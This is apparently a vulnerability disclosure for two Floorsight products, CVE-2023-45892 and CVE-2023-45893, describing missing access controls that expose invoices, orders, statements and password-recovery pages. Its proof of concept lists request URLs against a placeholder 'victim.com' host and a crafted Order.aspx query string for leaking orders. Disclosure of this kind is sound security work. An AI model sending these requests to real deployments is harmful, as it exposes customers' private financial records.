 ## CVE-2023-45892

* Name of Product: Insights by Floorsight
* The affected or fixed version(s): Versions from Q3 2023 and below (There are no version numbers)
* The CVE ID for the entry: CVE-2023-45892
* Description: This vulnerability allows a remote attacker to access invoices and orders while unauthenticated. There are no access controls to access these pages.
* Vulnerability Type: Insecure Direct Object Reference

### Proof of Concept
Invoices and Orders are accessible unauthenticated:

* https://insight.victim.com/invoice.aspx?id=1
* https://insight.victim.com/order.aspx?id=1

## CVE-2023-45893

* Name of Product: Customer Portal by Floorsight
* The affected or fixed version(s): Versions from Q3 2023 and below (There are no version numbers)
* The CVE ID for the entry: CVE-2023-45893
* Description: This vulnerability allows a remote attacker to access several sensitive pages while unauthenticated. There are no access controls to access these pages.
* Vulnerability Type: Insecure Direct Object Reference

### Proof of Concept

The following are accessible unauthenticated:

* https://customerportal.victim.com/order.aspx
* https://customerportal.victim.com/ratings.aspx
* https://customerportal.victim.com/invoice.aspx
* https://customerportal.victim.com/passwordrecovery.aspx
* https://customerportal.victim.com/statement.aspx
* https://customerportal.victim.com/order.aspx
* https://customerportal.victim.comm/ratings.aspx
* https://customerportal.victim.com/invoice.aspx
* https://customerportal.victim.com/passwordrecovery.aspx
* https://customerportal.victim.com/statement.aspx

To leak orders, for example, you may need to play with the parameters. replace CITYNAME with the server it's hosted in; if you know. findbycode=false is the the thing allows orders to be leaked here.

`Order.aspx?Id=1&lserver=<CITYNAME>&findbycode=FALSE&pcode=37374&pname=USERNAME`
